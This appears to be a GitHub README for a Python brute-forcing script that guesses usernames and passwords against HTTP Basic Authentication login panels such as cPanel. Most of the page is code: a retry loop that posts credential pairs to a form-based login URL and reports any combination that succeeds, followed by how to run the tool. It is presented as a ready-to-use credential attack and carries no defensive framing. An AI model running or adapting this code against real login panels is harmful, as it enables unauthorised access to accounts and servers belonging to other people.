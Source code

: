 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

### Example:

* Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
### Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                if response.getcode() == 200:
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

### You can see the help menu by running:

```
python bruteforce.py
```
